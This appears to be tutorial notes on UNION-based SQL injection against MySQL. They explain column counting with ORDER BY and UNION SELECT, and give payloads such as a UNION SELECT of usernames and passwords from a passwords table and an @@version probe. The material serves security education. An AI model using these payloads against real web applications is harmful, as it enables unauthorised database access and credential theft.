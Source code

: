 ## Union Cause
The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases. 

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```
## Un-even Columns
Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```
```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '
```

# UNION injection
#### Using ORDER BY
```sql
' order by 1-- -
```
Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).
```sql
' order by 2-- -
```
#### Using UNION
```sql
cn' UNION select 1,2,3-- -
```
```sql
cn' UNION select 1,2,3,4-- -
```

## Location of Injection
```sql
cn' UNION select 1,@@version,3,4-- -
```